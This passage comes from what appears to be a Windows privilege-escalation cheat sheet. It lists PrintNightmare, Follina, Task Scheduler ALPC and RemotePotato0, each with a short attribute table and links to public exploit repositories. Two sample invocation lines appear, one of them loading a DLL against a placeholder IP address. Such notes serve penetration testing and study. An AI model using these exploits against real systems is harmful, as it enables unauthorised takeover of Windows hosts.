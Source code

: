 Methods:

1\.

https://github.com/outflanknl/PrintNightmare

2\.

PrintNightmare 10.10.10.10 exp.dll

<a name="folina"></a>
# Folina

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

https://github.com/JohnHammond/msdt-follina

2\.

python3 follina.py -c \"notepad\"

<a name="alpc"></a>
# ALPC

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

https://github.com/riparino/Task_Scheduler_ALPC

<a name="remotepotato0"></a>
# RemotePotato0

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit
